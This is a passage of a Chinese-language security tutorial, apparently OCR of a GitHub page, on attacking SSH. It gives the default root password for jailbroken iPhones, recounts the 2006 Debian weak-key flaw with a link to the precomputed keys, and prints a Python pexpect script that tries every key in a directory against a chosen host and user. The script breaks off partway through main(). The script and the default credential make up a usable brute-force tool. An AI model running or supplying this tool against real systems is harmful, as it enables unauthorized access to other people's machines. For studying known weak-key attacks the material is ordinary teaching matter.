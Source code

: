 iPhone 设备上 root 用户的默认密码为：`alpine`，当设备越狱后，用户会在 iPhone 上启用一个 OpenSSH 服务

### 利用 SSH 中的弱私钥

对于 SSH 服务器，密码验证并不是唯一的手段。除此之外，SSH 还能使用公钥加密的方式进行验证。在使用这一验证方法时，服务器和用户分别掌握公钥和私钥。使用 RSA 或是 RSA 算法，服务器能生成用于 SSH 登录的密钥。

不过，2006 年 Debian Linux 发行版中发生了一件有意思的事。软件自动分析工具发现了一行已被开发人员注释掉的代码。这行被注释掉的代码用来确保创建 SSH 密钥的信息量足够大。被注释掉之后，密钥空间的大小的熵值降低到只有 15 位大小。此时可能的密钥只有 32767 个。Rapid7 的 CSO 和 HD Moore 在两个小时内生成了所有的 1024 位和 2048 位算法的可能的密钥。而且，把结果放在了[网上](http://digitaloffense.net/tools/debianopenssl/)中，大家都可以下载使用。

由此可以进行暴力破解，在使用密钥登录 SSH 时，需要键入 `ssh user@host -i keyfile -o PasswordAuthentication=no` 格式的一条命令。DEMO 代码如下：

```python
import pexpect
import optparse
import os
import threading

max_connections = 5
connection_lock = threading.BoundedSemaphore(value=max_connections)
stop = False
fails = 0

def connect(user, host, key_file, release):
    global stop, fails
    try:
        perm_denied = "Permission denied"
        ssh_new_key = "Are you sure you want to continue"
        conn_closed = "Connection closed by remote host"

        opt = " -o PasswordAuthentication=no"
        conn_str = "ssh {}@{} -i {}{}".format(user, host, key_file, opt)
        child = pexpect.spawn(conn_str)
        ret = child.expect([pexpect.TIMEOUT, perm_denied, ssh_new_key, conn_closed, "$", "#", ])
        if ret == 2:
            print("[-] Adding Host to !/.ssh/known_hosts")
            child.sendline("yes")
            connect(user, host, key_file, False)
        elif ret == 3:
            print("[-] Connection Closed By Remote Host")
            fails += 1
        elif ret > 3:
            print("[+] Success. {}".format(key_file))
            stop = True
    finally:
        if release:
            connection_lock.release()

def main():
    parser = optparse.OptionParser("usage %prog -H <target_host> -u <user> -d <directory>")
    parser.add_option("-H", dest="target_host", type=str, help="specify target host")
    parser.add_option("-d", dest="pass_dir", type=str, help="specify directory with keys")
    parser.add_option("-u", dest="user", type=str, help="specify the user")

    options, args = parser.parse_args()
    target_host = options.target_host
    pass_dir = options.pass_dir
    user = options.user

    if target_host is None or pass_dir is None or user is None:
        print(parser.usage)
        exit(-1)

```